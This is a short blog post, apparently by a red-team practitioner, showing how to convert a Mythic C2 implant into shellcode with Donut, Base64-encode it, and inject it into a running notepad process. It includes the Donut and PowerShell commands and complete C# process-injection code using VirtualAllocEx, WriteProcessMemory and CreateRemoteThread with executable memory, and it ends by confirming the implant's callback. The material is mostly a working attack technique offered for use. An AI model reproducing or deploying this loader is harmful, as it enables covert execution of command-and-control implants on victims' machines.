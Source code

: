 # Injecting dotNet Assemblies to Unmanaged Processes

This is a quick post to show how you can inject your .NET assembly code to unmanaged processes.

### Generate the ShellCode

As an example, I will be using a Mythic implant. But feel free to develop your own payload.

For this task we will use the Donut project, you can read more about it [here.](https://github.com/TheWover/donut)

The syntax is very simple, we need to indicate our payload (-f), the Class preceded by the Namespace (c) and the method to be executed (m). You can specify the system architecture (-a), with 1 for x86 and 2 for amd64:

```powershell
.\donut.exe -f .\atlas_callback.exe -c Atlas.Program -m Main -a 2
```
![](/images/2021-02-10-10-20-35.png)

If all goes well, the file "payload.bin" will be created in the local folder of the project.

![](/images/2021-02-10-10-23-41.png)

This file can already be used in the injection process, but let's do it differently. We will convert the file to Base64 and place it within our code, so we don't need to reference a file inside our final code.

```powershell
[Convert]::ToBase64String([IO.file]::ReadAllBytes((get-location).path + "\payload.bin")) | out-file payload.b64
```
![](/images/2021-02-10-10-29-18.png)
### Process Injection

The code below is a basic implementation of process injection, using _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_. I added a few lines to receive our payload in the necessary format and that's it.

Replace your Base64 payload in the code below and remember to start the chosen process as a target.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;

namespace Injection {
    class Program {
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void Main(string[] args) {

            string s = @"<B64PAYLOAD>";
            byte[] buf = Convert.FromBase64String(s);
            
            Process[] npProc = Process.GetProcessesByName("notepad");
            int pid = npProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x00002000 | 0x00001000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```
If all goes well, your code will be executed within the target process.

In my case, I can confirm by looking at the callback in Mythic and crossing with the PID of the target process:

![](/images/2021-02-10-10-45-49.png)
![](/images/2021-02-10-10-42-09.png)

Happy Hacking!
